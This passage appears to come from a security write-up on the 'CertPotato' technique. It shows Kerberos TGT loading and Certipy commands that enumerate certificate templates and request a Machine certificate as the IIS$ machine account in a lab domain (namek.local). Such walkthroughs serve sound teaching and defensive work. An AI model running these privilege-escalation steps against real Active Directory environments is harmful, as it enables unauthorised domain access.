 Once the TGT file is in the right format, you can load it with the command `export KRB5CCNAME_=<path_to_ticket.ccache>` . The **klist** command allows us to list the loaded Kerberos tickets, we can see that we have obtained a TGT as **IIS$**, the machine account.


```bash
klist
export KRB5CCNAME=ticket.ccache
klist
```
![Load ticket](/assets/img/CertPotato/load.png)

  
## Request a machine certificate

Certipy can take TGT tickets loaded with the -k option as parameter. We can use the TGT of our machine account to list the certificate templates:

```bash
certipy find -k -target dc.namek.local
```
![Find templates](/assets/img/CertPotato/find.png)


With our Kerberos ticket, we can then directly request a certificate with the default template **Machine**. Any certificate template with the EKU Client Authentication that our machine account can enroll on could have worked too:

```bash
certipy req -k -ca namek-ca -template Machine -target dc.namek.local
```
![Request certificate](/assets/img/CertPotato/request.png)
